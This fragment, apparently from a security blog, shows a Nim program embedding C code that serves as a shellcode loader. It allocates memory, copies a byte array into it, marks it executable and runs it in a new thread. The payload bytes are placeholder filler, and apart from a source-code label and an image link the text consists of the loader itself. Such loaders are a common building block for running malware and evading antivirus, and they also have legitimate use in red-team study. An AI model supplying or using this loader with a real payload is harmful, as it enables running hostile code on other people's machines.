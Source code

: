 [![](assets/1706254282-7aba550e8eaf98ad8222c095ee774394.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125223003-3a7a6ce0-bb8e-1.png)

```plain
{.emit: """

#include <windows.h>

unsigned char calc_payload[] = { 0x90, 0x90, 0x90, 0xBA, 0xDD, 0xBE, 0xEF, 0x90 };


unsigned int payload_len = sizeof(calc_payload);

int Ldrx(void) {

    PVOID calcSt;
    HANDLE calcTH;
    DWORD oldProtectCalc = 0;
    calcSt = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(calcSt, calc_payload, payload_len);
    VirtualProtect(calcSt, payload_len, PAGE_EXECUTE_READ, &oldProtectCalc);
    calcTH = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)calcSt, 0, 0, 0);
    WaitForSingleObject(calcTH, -1);
    return 0;
}

""".}
proc Ldr(): int
    {.importc: "Ldrx", nodecl.}

when isMainModule:
    var result = Ldr()
```
